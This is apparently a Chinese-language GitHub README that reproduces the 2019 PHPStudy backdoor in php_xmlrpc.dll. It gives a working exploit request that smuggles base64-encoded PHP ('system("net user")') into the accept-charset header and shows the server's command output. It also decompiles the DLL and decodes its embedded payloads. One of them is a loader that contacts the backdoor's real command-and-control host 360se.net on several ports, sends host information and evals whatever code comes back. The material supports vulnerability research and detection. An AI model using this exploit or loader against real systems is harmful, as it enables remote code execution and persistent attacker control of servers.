

# PHPStudy-Backdoor 后门漏洞复现
phpstudy dll backdoor for v2016 and v2018


## 0x01 scan search for backdoor dll

```
D:\Pentester\phpStudy>python check.py
=== .\php\php-5.2.17\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));
=== .\php\php-5.4.45\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));

D:\Pentester\phpStudy>

>>>D:\Pentester\phpStudy\php\php-5.2.17\ext\php_xmlrpc.dll
>>>D:\Pentester\phpStudy\php\php-5.4.45\ext\php_xmlrpc.dll


D:\Pentester\phpStudy>md5sum .\php\php-5.2.17\ext\php_xmlrpc.dll
\0f7ad38e7a9857523dfbce4bce43a9e9 *.\\php\\php-5.2.17\\ext\\php_xmlrpc.dll

D:\Pentester\phpStudy>md5sum  .\php\php-5.4.45\ext\php_xmlrpc.dll
\c339482fd2b233fb0a555b629c0ea5d5 *.\\php\\php-5.4.45\\ext\\php_xmlrpc.dll
```

## 0x02 exp

```Ps： 脚本编写思路:
1.先检测目标网站php版本，再执行命令，以及输出目标网站的server信息
2. 生成固定字符串md5,验证是否成功执行
```


`accept-charset: echo system("net user");echo PHP_VERSION;`

`Base64 encode`

`accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=`

## BurpSuite Request

```
GET / HTTP/1.1
Host: 172.16.9.174
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=
Accept-Encoding: gzip,deflate
Upgrade-Insecure-Requests: 1


```
## BurpSuite Response

```
HTTP/1.1 200 OK
Date: Tue, 24 Sep 2019 15:06:18 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 17223


\\JAS502N µÄÓû§ÕÊ»§

-------------------------------------------------------------------------------
Administrator            CTF                      DefaultAccount           
defaultuser0             Guest                    
ÃüÁî³É¹¦Íê³É¡£

5.4.45
```
## ida F5

```
int __cdecl sub_100031F0(int a1, int a2, _DWORD *a3)
{
  int v3; // edx
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // esi
  char *v8; // edi
  char *v9; // ecx
  int v10; // eax
  char *v11; // esi
  int v12; // eax
  char *v13; // edi
  char *v14; // ecx
  _DWORD *v15; // esi
  int v16; // eax
  int v17; // edx
  int v18; // eax
  int v19; // edi
  _DWORD *v20; // esi
  int result; // eax
  int v22; // eax
  int v23; // ecx
  int v24; // eax
  int v25; // edi
  _DWORD *v26; // esi
  char v27; // [esp+Dh] [ebp-19Bh]
  __int16 v28; // [esp+BDh] [ebp-EBh]
  char v29; // [esp+BFh] [ebp-E9h]
  char v30; // [esp+C0h] [ebp-E8h]
  char v31; // [esp+100h] [ebp-A8h]
  char v32; // [esp+140h] [ebp-68h]
  char v33; // [esp+180h] [ebp-28h]
  const char ***v34; // [esp+184h] [ebp-24h]
  int v35; // [esp+188h] [ebp-20h]
  int v36; // [esp+18Ch] [ebp-1Ch]
  const char ***v37; // [esp+190h] [ebp-18h]
  int v38; // [esp+194h] [ebp-14h]
  _DWORD **v39; // [esp+198h] [ebp-10h]
  int v40; // [esp+19Ch] [ebp-Ch]
  char *v41; // [esp+1A0h] [ebp-8h]
  char *v42; // [esp+1A4h] [ebp-4h]

  memset(&v27, 0, 0xB0u);
  v28 = 0;
  v3 = *a3;
  v29 = 0;
  if ( *(_BYTE *)(*(_DWORD *)(v3 + 4 * core_globals_id - 4) + 210) )
    zend_is_auto_global(aServer, 7, a3);
  zend_hash_find(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 216, aServer, 8, &v33);
  if ( zend_hash_find(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 216, aServer, strlen(aServer) + 1, &v39) != -1
    && zend_hash_find(**v39, aHttpAcceptEnco, strlen(aHttpAcceptEnco) + 1, &v34) != -1 )
  {
    if ( !strcmp(**v34, aGzipDeflate) )
    {
      if ( zend_hash_find(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 216, aServer, strlen(aServer) + 1, &v39) != -1
        && zend_hash_find(**v39, aHttpAcceptChar, strlen(aHttpAcceptChar) + 1, &v37) != -1 )
      {
        v40 = sub_100040B0(**v37, strlen(**v37));
        if ( v40 )
        {
          v4 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
          v5 = *(_DWORD *)(v4 + 296);
          *(_DWORD *)(v4 + 296) = &v30;
          v35 = v5;
          v6 = setjmp3(&v30, 0);
          v7 = v35;
          if ( v6 )
            *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v35;
          else
            zend_eval_string(v40, 0, &byte_10012884, a3);
          *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v7;
        }
      }
    }
    else
    {
      v12 = strcmp(**v34, aCompressGzip);
      if ( !v12 )
      {
        v13 = &byte_10012884;
        v14 = (char *)&unk_1000D66C;
        v42 = &byte_10012884;
        v15 = &unk_1000D66C;
        while ( 1 )
        {
          if ( *v15 == 39 )
          {
            v13[v12] = 92;
            v42[v12 + 1] = *v14;
            v12 += 2;
            v15 += 2;
          }
          else
          {
            v13[v12++] = *v14;
            ++v15;
          }
          v14 += 4;
          if ( (signed int)v14 >= (signed int)&unk_1000E5C4 )
            break;
          v13 = v42;
        }
        spprintf(&v36, 0, aVSMS, byte_100127B8, Dest);
        spprintf(&v42, 0, aSEvalSS, v36, aGzuncompress, v42);
        v16 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
        v17 = *(_DWORD *)(v16 + 296);
        *(_DWORD *)(v16 + 296) = &v32;
        v40 = v17;
        v18 = setjmp3(&v32, 0);
        v19 = v40;
        if ( v18 )
        {
          v20 = a3;
          *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v40;
        }
        else
        {
          v20 = a3;
          zend_eval_string(v42, 0, &byte_10012884, a3);
        }
        result = 0;
        *(_DWORD *)(*(_DWORD *)(*v20 + 4 * executor_globals_id - 4) + 296) = v19;
        return result;
      }
    }
  }
  if ( dword_10012AB0 - dword_10012AA0 >= dword_1000D010 && dword_10012AB0 - dword_10012AA0 < 6000 )
  {
    if ( strlen(byte_100127B8) == 0 )
      sub_10004480(byte_100127B8);
    if ( strlen(Dest) == 0 )
      sub_10004380(Dest);
    if ( strlen(byte_100127EC) == 0 )
      sub_100044E0(byte_100127EC);
    v8 = &byte_10012884;
    v9 = asc_1000D028;
    v41 = &byte_10012884;
    v10 = 0;
    v11 = asc_1000D028;
    while ( 1 )
    {
      if ( *(_DWORD *)v11 == 39 )
      {
        v8[v10] = 92;
        v41[v10 + 1] = *v9;
        v10 += 2;
        v11 += 8;
      }
      else
      {
        v8[v10++] = *v9;
        v11 += 4;
      }
      v9 += 4;
      if ( (signed int)v9 >= (signed int)&unk_1000D66C )
        break;
      v8 = v41;
    }
    spprintf(&v41, 0, aEvalSS, aGzuncompress, v41);
    v22 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
    v23 = *(_DWORD *)(v22 + 296);
    *(_DWORD *)(v22 + 296) = &v31;
    v38 = v23;
    v24 = setjmp3(&v31, 0);
    v25 = v38;
    if ( v24 )
    {
      v26 = a3;
      *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v38;
    }
    else
    {
      v26 = a3;
      zend_eval_string(v41, 0, &byte_10012884, a3);
    }
    *(_DWORD *)(*(_DWORD *)(*v26 + 4 * executor_globals_id - 4) + 296) = v25;
    if ( dword_1000D010 < 3600 )
      dword_1000D010 += 3600;
    ftime(&dword_10012AA0);
  }
  ftime(&dword_10012AB0);
  if ( dword_10012AA0 < 0 )
    ftime(&dword_10012AA0);
  return 0;
}
```

## payload for zlib 1

```
9 = asc_1000D028;
if ( (signed int)v9 >= (signed int)&unk_1000D66C )

>>>1000D028 - 1000D66C
```

#### zlib hex
```
78da75914d8f9b301086ffcade76f74648d2ad55ad543081d8f95aec60882f15d840091f4642c4815fbf906a55f5d0c34833d23b33cfbcf3f433bdc5d5cb531277e9b7d52f990a25d39767dfabfa98819147be423569c5d2ee2e5195f1080fc9128fa8d0c501a2f6a4db4a34f8262a30f0c8be8986b4492dd401966fb0200a39468e5d70260c875324d8f81d30d7cee8069c1994f2a45529a0051024596030ca4a46c3417ee9b36003e8978e3756fe41ed5a98e01a9b40f370a5b0977753afde43ab7cb0d5dfe77a661ae51675c80966c69617964294d4029679aa5b803cd60933987285b10716f2c180b784f9793afccbe22f300e5c929d4bf748a89419b5117389bf1f37fd81dd87c85b15a7bf73fa0f6a15d403a374d43c4b65ffd1f8e1f13a7966ec03d65f4c50c6e1ba3915f63531175ad46c14c3bd49eb4a475b2c9202bdc1bc2c932533105ccdac4e62ae7b1e1e8d3804fdd4e724d34efed8b516a2baf7e8daed90a5306fe41047a4dac1f97e9dff6198fe9357f5c5bcdf261f261fb9de9dbb5de6bfbf3fbfbefef80403bcb56978
```
#### decode zlib file1
```
bash-3.2$ pwd
/Users/ale/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib

bash-3.2$ hexdump -C p.txt |head
00000000  78 da 75 91 4d 8f 9b 30  10 86 ff ca de 76 f7 46  |x.u.M..0.....v.F|
00000010  48 d2 ad 55 ad 54 30 81  d8 f9 5a ec 60 88 2f 15  |H..U.T0...Z.`./.|
00000020  d8 40 09 1f 46 42 c4 81  5f bf 90 6a 55 f5 d0 c3  |.@..FB.._..jU...|
00000030  48 33 d2 3b 33 cf bc f3  f4 33 bd c5 d5 cb 53 12  |H3.;3....3....S.|
00000040  77 e9 b7 d5 2f 99 0a 25  d3 97 67 df ab fa 98 81  |w.../..%..g.....|
00000050  91 47 be 42 35 69 c5 d2  ee 2e 51 95 f1 08 0f c9  |.G.B5i....Q.....|
00000060  12 8f a8 d0 c5 01 a2 f6  a4 db 4a 34 f8 26 2a 30  |..........J4.&*0|
00000070  f0 c8 be 89 86 b4 49 2d  d4 01 96 6f b0 20 0a 39  |......I-...o. .9|
00000080  46 8e 5d 70 26 0c 87 53  24 d8 f8 1d 30 d7 ce e8  |F.]p&..S$...0...|
00000090  06 9c 19 94 f2 a4 55 29  a0 05 10 24 59 60 30 ca  |......U)...$Y`0.|
bash-3.2$

bash-3.2$ file p.txt
p.txt: zlib compressed data

bash-3.2$ zlib_decompress p.txt p_payload.txt

bash-3.2$ cat p_payload.txt

 @eval( base64_decode('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpOwplcnJvcl9yZXBvcnRpbmcoMCk7CiRoID0gJF9TRVJWRVJbJ0hUVFBfSE9TVCddOwokcCA9ICRfU0VSVkVSWydTRVJWRVJfUE9SVCddOwokZnAgPSBmc29ja29wZW4oJGgsICRwLCAkZXJybm8sICRlcnJzdHIsIDUpOwppZiAoISRmcCkgewp9IGVsc2UgewoJJG91dCA9ICJHRVQgeyRfU0VSVkVSWydTQ1JJUFRfTkFNRSddfSBIVFRQLzEuMVxyXG4iOwoJJG91dCAuPSAiSG9zdDogeyRofVxyXG4iOwoJJG91dCAuPSAiQWNjZXB0LUVuY29kaW5nOiBjb21wcmVzcyxnemlwXHJcbiI7Cgkkb3V0IC49ICJDb25uZWN0aW9uOiBDbG9zZVxyXG5cclxuIjsKIAoJZndyaXRlKCRmcCwgJG91dCk7CglmY2xvc2UoJGZwKTsKfQ=='));
 
```
### decode base64
```
@eval( base64_decode('
    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";    

        fwrite($fp, $out);
        fclose($fp);
    }

'));
```

## payload for zlib 2

```
v14 = (char *)&unk_1000D66C;
if ( (signed int)v14 >= (signed int)&unk_1000E5C4 ) 

>>>1000D66C - 1000E5C4
```
#### zlib hex2
```
78daed54eb6ea346147e9948defc68c42569825257c538c6830d89c1e6323f7605833dc60c97150b18d487ef194862a752dfa04896612e67bef35de626994e92fc507cfff17d721785d5fef7fb1ffb9c14f1fedb8d7b37f9e3ef3f277737e6f8727b37994e5facf9743a79bee9fb7e3af9edffe7f24c9effda3721fbf6ce62bc1f589c6c745687aed2637f53a0cc2e893cab029f1db06f74916cf42869135343e56b5b32921b0d614a87fd594372bb8c3252985afaa865588c324b083da5464bfb445e62166b3425925be317b1c79daa208de46b4d4d435fa56f8e9a9b7dd012695747992b185d4b8d25afb919e74eead93c99f9caaf569a63c37996182d87b9049daa15e275f4458df5334373811219d6788b5fbe6c3581f48bc50be514e98c4539f494039e79d1ace50ace9e29af7995125de9e2a590703c439fd95385349bf7d7c74b54995bb57ced54386756e28452e4d845e03da491bea31c139c4f61fde7d89b33cb88a49c424969b1775f183a6bd7b037ca6d29f0dae2bdb7f2bfce43f31df05b18a11714487bb9f4a6b147a0d120c051ec1b35d20cd88312bef6b029285a0a1c6316cb4619eb3b38f7788c32bbc20ee7d362f06e1189d4889d6b94804e94c9a1ce609e1e71e636d0dbe7592be7fdac0b979c47d0546491ec0aab4bbf80170d78afb5599f048a738305dee60b0ee0b2b3b847a036f052e3ec89f3057df3b5e2014baee04b228bf5c501eb0b2170ae306d41ff0d030dd462dcab44860cbef3dcd4971431d6e278e5cc86dac043023c1dc37ed8a3c0181d38d2317801fcfdb52ed512955e78fdece311a925ec2d52bc3439ce236874dc3b3489e558e65908b2311381240eff5857e428010d73b71dbe33ce2f7c675820436e8a94fcabd6bbbfc17f4830e72f9dc5d79f68fb3a57f9d83de40dbe77fda05962d7dce3385b549017c89adda0e5908bafe394659057e0d4020fd1017fe09bd4d037e57ed42af9ba3e35804faef529d454eed11ee98b1eb86887dc6d402fd088c86e156b90dfab5c874e9b62ed3e599f4cc9049fadb307184795b11c73c3f78297e9eac22b455b81a2cced4882463cbcbe8ee89b6f77b137e201ddae344cb9c70dcd17ae3c80ca60f058c5fbe51aa7a1f79045fc7ed1dd7ba29f1b0c3940a7f3fe2de1783ef00fde1f6a04e01b7e2fbc7bb17cdb0ac2d8ef38cffd0ff7430fd8e17ec38dd75b3168d2ac52a5c69ed8906cf773dda11272aaf0dc07de19bc35660738fedcf3712ff9a009e03a0612e04a9e7e6ea5071679c0bb5334dc2ff01b7b10abde77d28f3af5352f030fbb198b41bb956e1c413fc95a2829f6aca1df8f6c98a2500e9901ce0e7e5c841e785db36b189b4e6e6f9fff0101e651e600
```
### decode zlib file2

```
ale@Pentest  ~/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib: hexdump -C p2.txt |head  

00000000  78 da ed 54 eb 6e a3 46  14 7e 99 48 de fc 68 c4  |x..T.n.F.~.H..h.|
00000010  25 69 82 52 57 c5 38 c6  83 0d 89 c1 e6 32 3f 76  |%i.RW.8......2?v|
00000020  05 83 3d c6 0c 97 15 0b  18 d4 87 ef 19 48 62 a7  |..=..........Hb.|
00000030  52 df a0 48 96 61 2e 67  be f3 5d e6 26 99 4e 92  |R..H.a.g..].&.N.|
00000040  fc 50 7c ff f1 7d 72 17  85 d5 fe f7 fb 1f fb 9c  |.P|..}r.........|
00000050  14 f1 fe db 8d 7b 37 f9  e3 ef 3f 27 77 37 e6 f8  |.....{7...?'w7..|
00000060  72 7b 37 99 4e 5f ac f9  74 3a 79 be e9 fb 7e 3a  |r{7.N_..t:y...~:|
00000070  f9 ed ff e7 f2 4c 9e ff  da 37 21 fb f6 ce 62 bc  |.....L...7!...b.|
00000080  1f 58 9c 6c 74 56 87 ae  d2 63 7f 53 a0 cc 2e 89  |.X.ltV...c.S....|
00000090  3c ab 02 9f 1d b0 6f 74  91 6c f4 28 69 13 53 43  |<.....ot.l.(i.SC|

ale@Pentest  ~/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib: file p2.txt                     
p2.txt: zlib compressed data

ale@Pentest  ~/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib: zlib_decompress p2.txt p2_payload.txt 

ale@Pentest  ~/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib: cat p2_payload.txt 

$i='info^_^'.base64_encode($V.'<|>'.$M.'<|>').'==END==';$zzz='-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------';@eval(base64_decode('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpOwplcnJvcl9yZXBvcnRpbmcoMCk7CmZ1bmN0aW9uIHRjcEdldCgkc2VuZE1zZyA9ICcnLCAkaXAgPSAnMzYwc2UubmV0JywgJHBvcnQgPSAnMjAxMjMnKXsKCSRyZXN1bHQgPSAiIjsKICAkaGFuZGxlID0gc3RyZWFtX3NvY2tldF9jbGllbnQoInRjcDovL3skaXB9OnskcG9ydH0iLCAkZXJybm8sICRlcnJzdHIsMTApOyAKICBpZiggISRoYW5kbGUgKXsKICAgICRoYW5kbGUgPSBmc29ja29wZW4oJGlwLCBpbnR2YWwoJHBvcnQpLCAkZXJybm8sICRlcnJzdHIsIDUpOwoJaWYoICEkaGFuZGxlICl7CgkJcmV0dXJuICJlcnIiOwoJfQogIH0KICBmd3JpdGUoJGhhbmRsZSwgJHNlbmRNc2cuIlxuIik7Cgl3aGlsZSghZmVvZigkaGFuZGxlKSl7CgkJc3RyZWFtX3NldF90aW1lb3V0KCRoYW5kbGUsIDIpOwoJCSRyZXN1bHQgLj0gZnJlYWQoJGhhbmRsZSwgMTAyNCk7CgkJJGluZm8gPSBzdHJlYW1fZ2V0X21ldGFfZGF0YSgkaGFuZGxlKTsKCQlpZiAoJGluZm9bJ3RpbWVkX291dCddKSB7CgkJICBicmVhazsKCQl9CgkgfQogIGZjbG9zZSgkaGFuZGxlKTsgCiAgcmV0dXJuICRyZXN1bHQ7IAp9CgokZHMgPSBhcnJheSgid3d3IiwiYmJzIiwiY21zIiwiZG93biIsInVwIiwiZmlsZSIsImZ0cCIpOwokcHMgPSBhcnJheSgiMjAxMjMiLCI0MDEyNSIsIjgwODAiLCI4MCIsIjUzIik7CiRuID0gZmFsc2U7CmRvIHsKCSRuID0gZmFsc2U7Cglmb3JlYWNoICgkZHMgYXMgJGQpewoJCSRiID0gZmFsc2U7CgkJZm9yZWFjaCAoJHBzIGFzICRwKXsKCQkJJHJlc3VsdCA9IHRjcEdldCgkaSwkZC4iLjM2MHNlLm5ldCIsJHApOyAKCQkJaWYgKCRyZXN1bHQgIT0gImVyciIpewoJCQkJJGIgPXRydWU7CgkJCQlicmVhazsKCQkJfQoJCX0KCQlpZiAoJGIpYnJlYWs7Cgl9CgkkaW5mbyA9IGV4cGxvZGUoIjxePiIsJHJlc3VsdCk7CglpZiAoY291bnQoJGluZm8pPT00KXsKCQlpZiAoc3RycG9zKCRpbmZvWzNdLCIvKk9uZW1vcmUqLyIpICE9PSBmYWxzZSl7CgkJCSRpbmZvWzNdID0gc3RyX3JlcGxhY2UoIi8qT25lbW9yZSovIiwiIiwkaW5mb1szXSk7CgkJCSRuPXRydWU7CgkJfQoJCUBldmFsKGJhc2U2NF9kZWNvZGUoJGluZm9bM10pKTsKCX0KfXdoaWxlKCRuKTs='));

ale@Pentest  ~/Pentester/PHPStudy-Backdoor/backdoor_dll/php-5.4.45/ext/zlib:
```
### decode base64
```
$i='info^_^'.base64_encode($V.'<|>'.$M.'<|>').'==END==';
$zzz='-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------';
@eval(base64_decode('
    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
      $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10);
      if( !$handle ){
        $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
        if( !$handle ){
            return "err";
        }
      }
      fwrite($handle, $sendMsg."\n");
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);
            $info = stream_get_meta_data($handle);
            if ($info['timed_out']) {
              break;
            }
         }
      fclose($handle);
      return $result;
    }    

    $ds = array("www","bbs","cms","down","up","file","ftp");
    $ps = array("20123","40125","8080","80","53");
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){
            $b = false;
            foreach ($ps as $p){
                $result = tcpGet($i,$d.".360se.net",$p);
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);
                $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);

'));
```


## 参考链接

https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
